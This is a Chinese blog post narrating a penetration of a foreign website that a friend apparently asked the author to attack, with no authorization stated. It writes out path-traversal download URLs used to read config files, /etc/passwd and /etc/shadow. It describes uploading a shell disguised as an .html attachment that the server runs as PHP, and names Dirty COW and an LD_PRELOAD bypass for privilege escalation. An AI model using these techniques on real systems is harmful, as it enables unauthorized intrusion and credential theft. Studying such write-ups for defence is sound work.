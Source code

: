 ```yaml
---
title: "记一次渗透之从后台到提权"
date: 2019-03-12T21:11:41+08:00
lastmod: 2019-03-12T21:11:41+08:00
draft: false
tags: ['pentest']
categories: ['渗透测试']
comment: true
---
```


某日朋友发来一个站让搞！搞搞搞！

<!--more-->

![](https://y4er.com/img/uploads/20190509168008.jpg)

国外站，翻译的我尴尬证都犯了。

![](https://y4er.com/img/uploads/20190509166186.jpg)

习惯性先发文章看看编辑器上传附件什么的。

![](https://y4er.com/img/uploads/20190509163882.jpg)

四处上传，首先尝试编辑器处上传图片，经验告诉我越low的编辑器越好拿shell。

![](https://y4er.com/img/uploads/20190509167958.jpg)

我错了，白名单+上传重命名，smarteditor编辑器，各种截断尝试，突破不了。

![](https://y4er.com/img/uploads/20190509161256.jpg)

![](https://y4er.com/img/uploads/20190509168630.jpg)

这编辑器无敌。随后发现另外三处均是调用此编辑器上传，暂时换思路。

在已经发布的文章中发现绝对路径

```
http://xxx.com/download.php?dnfile=20190228_012000_0978115.jpg&file=/home/xxx/webapp/../public_html/upload_dir/board/16887879979878fa23f2.jpg
```

![](https://y4er.com/img/uploads/20190509169487.jpg)

测试后发现`public_html`为根目录，决定挖挖注入，万一是root没降权就舒服了。

`http://www.xxx.com/?module=xx&action=xx&iPopNo=1&seq_cd=1`

经过手动加sqlmap测试，发现后台存在时间盲注，由于国外站点访问不稳定的原因，遂放弃，在后期getshell之后发现用户不是`root`并且权限死得很，为之庆幸并没有在此处浪费时间。

到此处思路死了。编辑器getshell无解，sql注入getshell卒。还有什么思路呢？

我们之前爆出绝对路径的url访问后发现会自动下载

```
http://xxx.com/download.php?dnfile=20190228_012000_0978115.jpg&file=/home/xxx/webapp/../public_html/upload_dir/board/16887879979878fa23f2.jpg
```

存在任意文件下载吗？先构造一下尝试

```
http://xxx.com/download.php?dnfile=download.php&file=/home/xxx/webapp/../public_html/download.php
```

![](https://y4er.com/img/uploads/20190509166054.jpg)

bingo！

![](https://y4er.com/img/uploads/20190509167259.jpg)

存在任意文件下载，我们找下数据库配置文件

```
http://xxx.com/download.php?dnfile=config.php&file=/home/xxx/webapp/../public_html/index.php
```

index.php一般会引入数据库的config.php

![](https://y4er.com/img/uploads/20190509169463.jpg)

重新构造

```
http://www.xxx.com/download.php?dnfile=config.php&file=/home/xxx/webapp/../public_html/../webapp/config.php
```

![](https://y4er.com/img/uploads/20190509168321.jpg)

数据库配置get！后发现没开3306外链，思路断掉。

在这个时候我重新回头看这个任意文件下载，读一下敏感文件试试？

```
my.cnf
```

![](https://y4er.com/img/uploads/20190509162699.jpg)

password被注释掉，无用。

```bash
/etc/passwd
/etc/shadow
/etc/profile
```

![](https://y4er.com/img/uploads/20190509167603.jpg)

![](https://y4er.com/img/uploads/20190509164450.jpg)

没发现有可用信息。

下载apache配置文件

```
http://www.xxx.com/download.php?dnfile=1.php&file=/usr/local/apache/conf/httpd.conf
```

![](https://y4er.com/img/uploads/20190509160563.jpg)

惊了！html可以被当作php文件！

于是我去编辑器中尝试上传这几种文件，仍以失败告终。

但是附件的我们还没试！

![](https://y4er.com/img/uploads/20190509162424.jpg)

抓包改后缀，返回文章查看路径

```
http://www.xxx.com/download.php?dnfile=php.jpg.html&file=/home/xxx/webapp/../public_html/upload_dir/board/13303476456487546a3cd.html
```

拼接

```
http://www.xxx.com/upload_dir/board/13303476456487546a3cd.html
```

![](https://y4er.com/img/uploads/20190509167159.jpg)

getshell!

后面的就不说了，提权就是脏牛+[bypass disablefunc](https://github.com/yangyangwithgnu/bypass_disablefunc_via_LD_PRELOAD)一条龙，没啥亮点。

![](https://y4er.com/img/uploads/20190509168941.jpg)

本章结束，寡人欲休。